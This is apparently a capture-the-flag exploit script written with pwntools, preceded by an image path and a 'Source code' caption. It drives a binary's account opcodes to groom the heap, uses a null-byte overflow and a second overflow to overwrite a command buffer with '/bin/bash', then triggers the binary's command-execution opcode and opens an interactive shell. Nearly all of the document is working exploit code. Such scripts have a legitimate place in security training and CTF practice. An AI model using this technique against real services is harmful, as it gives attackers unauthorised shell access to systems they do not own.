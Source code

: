 ```py
s = lambda a: p.send(a)
rl = lambda: p.recvline()
ru = lambda a: p.recvuntil(a)

def create_account(account_type, data):
    """Opcode 0: Create account
    account_type: 0 = binary/wide string, 1 = regular string
    Returns: account_id (0-15) or -1 on failure
    """
    payload = p8(0) + p8(account_type) + data
    s(payload)

def delete_account(account_id):
    """Opcode 1: Delete account (op_1)"""
    payload = p8(1) + p8(account_id)
    s(payload)

def update_account(account_id, mode, data):
    """Opcode 2: Update account data
    mode: 0 = binary/wide string, 1 = regular string
    """
    payload = p8(2) + p8(account_id) + p8(mode) + data
    s(payload)

def display_account(account_id):
    """Opcode 3: Display account data"""
    payload = p8(3) + p8(account_id)
    s(payload)

def execute_command():
    """Opcode 255: Execute system command"""
    payload = p8(255)
    s(payload)

# setup heap state
create_account(1, b"A"*30)
pause()
create_account(1, b"B"*1)
pause()
execute_command()
pause()

# null-byte overflow
update_account(0, 0, b"D"*30)
pause()

# overflow
update_account(1, 0, b"D /bin/bash")
pause()

# run command
execute_command()
pause()

p.interactive()
```
